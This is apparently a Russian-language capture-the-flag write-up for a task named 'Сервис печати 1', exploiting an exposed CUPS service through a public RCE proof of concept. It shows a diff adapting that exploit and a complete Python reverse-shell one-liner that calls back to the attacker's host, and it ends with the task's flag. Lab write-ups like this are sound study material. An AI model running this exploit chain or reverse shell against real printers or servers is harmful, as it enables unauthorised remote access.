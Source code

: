 # Сервис печати 1

Дан сервис `cups` (нашли через nmap порт 631), в котором в прошлом году была открыта цепочка уязвимостей, позволяющая получить RCE. Суть атаки описана в [этой статье](https://www.evilsocket.net/2024/09/26/Attacking-UNIX-systems-via-CUPS-Part-I/) от нашедшего эти уязвимости

Погуглив, находим почти готовый сплойт [на гитхабе](https://github.com/0xCZR1/PoC-Cups-RCE-CVE-exploit-chain). В нём нужно заменить порт, на котором будет поднят ipp сервер для эксплуатации, на один из разрешенного в сети диапазона (41100 - 41300), и ещё поменять название принтера, чтобы не конфликтовало с другими принтерами:

```diff
diff --git a/cups-rce.py b/cups-rce.py
index eba3a65..630139e 100644
--- a/cups-rce.py
+++ b/cups-rce.py
@@ -73,9 +73,9 @@ def send_browsed_packet(ip, port, ipp_server_host, ipp_server_port):
     printer_type = 2
     printer_state = '3'  # Idle state
     printer_uri = f'http://{ipp_server_host}:{ipp_server_port}/printers/EVILCUPS'
-    printer_location = '"Pwned Location"'
-    printer_info = '"Pwned Printer"'
-    printer_model = '"HP LaserJet 1020"'
+    printer_location = '"meow"'
+    printer_info = '"cute printer"'
+    printer_model = '"HP LaserJet 1337"'
     packet = f"{printer_type:x} {printer_state} {printer_uri} {printer_location} {printer_info} {printer_model} \n"
     print(f"Packet content:\n{packet}")
 
@@ -103,7 +103,7 @@ if __name__ == "__main__":
         
     # Assign arguments to variables
     SERVER_HOST = sys.argv[1]
-    SERVER_PORT = 12349
+    SERVER_PORT = 41155
     TARGET_HOST = sys.argv[2]
     COMMAND = sys.argv[3]  # Command for the PrinterPwned class
```

Далее, запускаем сплойт, передав в команду реверс-шелл (предварительно поняли, что в контейнере есть python):
```bash
python3 cups-rce.py 10.5.5.164 10.10.1.145 "python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.5.5.164\",41101));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"sh\")'"
```

Далее, запускаем печать в веб панели:
![Print test page button in cups control panel](print-test-page.png)

Получаем реверс шелл, читаем флаг `cat user_flag.txt`

**Флаг:** `nto{n0t_my_cup5_0f_t34}`